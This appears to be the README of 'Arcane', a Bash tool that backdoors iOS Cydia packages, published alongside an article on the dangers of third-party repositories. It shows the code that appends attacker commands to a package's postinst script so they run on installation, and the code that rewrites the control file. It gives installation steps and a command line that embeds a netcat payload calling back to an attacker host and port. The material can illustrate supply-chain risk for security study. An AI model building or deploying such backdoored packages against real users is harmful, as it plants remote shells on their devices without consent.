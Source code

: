 Arcane is a simple script designed to backdoor iOS packages (iphone-arm) and create the necessary resources for APT repositories. It was created for [this publication](https://null-byte.com/a-0325421/) to help illustrate why Cydia repositories can be dangerous and what post-exploitation attacks are possible from a compromised iOS device.

![](images/arcane.gif)

---

### How Arcane works...

To understand what's happening in the GIF, decompress a package created with Arcane.
```
dpkg-deb -R /tmp/cydia/whois_5.3.2-1_iphoneos-arm_BACKDOORED.deb /tmp/whois-decomp
```

Notice the `control` and `postinst` files in the `DEBIAN` directory. Both files are important.
```
tree /tmp/whois-decomp/

/tmp/whois-decomp/
├── DEBIAN
│   ├── control
│   └── postinst
└── usr
    └── bin
        └── whois
```

It's possible to supply scripts as part of a package when installing or removing applications. [Package maintainer scripts](https://www.debian.org/doc/debian-policy/ch-maintainerscripts.html) include the [preinst, postinst, prerm, and postrm](https://wiki.debian.org/MaintainerScripts) files. Arcane takes advantage of the `postinst` file to execute commands during the installation.
```bash
# The "post-installation" file. This file is generally responsible
# for executing commands on the OS after installing the required
# files. It's utilized by developers to manage and maintain various
# aspects of an installation. Arcane abuses this functionality by
# appending malicious Bash commands to the file.
postinst="$tmp/DEBIAN/postinst";

# A function to handle the type of command execution embedded into the
# postinst file.
function inject_backdoor ()
{
    # If --file is used, `cat` the command(s) into the postinst file.
    if [[ "$infile" ]]; then
        cat "$infile" >> "$postinst";
        embed="[$infile]";
    else
        # If no --file, utilize the simple Bash payload, previously
        # defined.
        echo -e "$payload" >> "$postinst";
        embed="generic shell command";
    fi;
    status "embedded $embed into postinst" "error embedding backdoor";
    chmod 0755 "$postinst"
};
```

The [control](https://www.debian.org/doc/debian-policy/ch-controlfields.html) file contains values that package management tools use when installing packages. Arcane will either modify an existing `control` or create it.
```bash
# The "control" file template. Most iOS packages will include a
# control file. In the event one is not found, Arcane will use the
# below template. The `$hacker` variable is used here to occupy
# various arbitrary fields.
# https://www.debian.org/doc/manuals/maint-guide/dreq.en.html
controlTemp="Package: com.$hacker.backdoor
Name: $hacker backdoor
Version: 1337
Section: app
Architecture: iphoneos-arm
Description: A backdoored iOS package
Author: $hacker <https://$hacker.github.io/>
Maintainer: $hacker <https://$hacker.github.io/>";

...

# An `if` statement to check for the control file.
if [[ ! -f "$tmp/DEBIAN/control" ]]; then
    # If no control is detected, create it using the template.
    echo "$controlTemp" > "$tmp/DEBIAN/control";
    status "created control file" "error with control template";
else
    # If a control file exists, Arcane will simply rename the package
    # as it appears in the list of available Cydia applications. This
    # makes the package easier to location in Cydia.
    msg "detected control file" succ;
    sed -i '0,/^Name:.*/s//Name: $hacker backdoor/' "$tmp/DEBIAN/control";
    status "modified control file" "error with control";
fi;
```

### Usage

Clone the repository in Kali v2020.3.
```
sudo apt-get update; sudo apt-get install -Vy bzip2 netcat-traditional dpkg coreutils # dependencies
sudo git clone https://github.com/tokyoneon/arcane /opt/arcane
sudo chown $USER:$USER -R /opt/arcane/; cd /opt/arcane
chmod +x arcane.sh;./arcane.sh --help
```

Embed a command into a given package. See [article](https://null-byte.com/a-0325421/) for more info.
```
./arcane.sh --input samples/sed_4.5-1_iphoneos-arm.deb --lhost <attacker> --lport <4444> --cydia --netcat
```

### Package samples

The repo includes packages for testing.
```
ls -la samples/

-rw-r--r-- 1 root root 100748 Jul 17 18:39 libapt-pkg-dev_1.8.2.1-1_iphoneos-arm.deb
-rw-r--r-- 1 root root 142520 Jul 22 06:21 network-cmds_543-1_iphoneos-arm.deb
-rw-r--r-- 1 root root  76688 Aug 29  2018 sed_4.5-1_iphoneos-arm.deb
-rw-r--r-- 1 root root  60866 Jul  8 21:03 top_39-2_iphoneos-arm.deb
-rw-r--r-- 1 root root  13810 Aug 29  2018 whois_5.3.2-1_iphoneos-arm.deb
```

MD5 sums, as found on the official [Bingner repository](https://apt.bingner.com/).
```
md5sum samples/*.deb

3f1712964701580b3f018305a55e217c  samples/libapt-pkg-dev_1.8.2.1-1_iphoneos-arm.deb
795ccf9c6d53dd60d2f74f7a601f474f  samples/network-cmds_543-1_iphoneos-arm.deb
a020882dac121afa4b03c63304d729b0  samples/sed_4.5-1_iphoneos-arm.deb
38db275007a331e7ff8899ea22261dc7  samples/top_39-2_iphoneos-arm.deb
b40ee800b72bbac323568b36ad67bb16  samples/whois_5.3.2-1_iphoneos-arm.deb
```
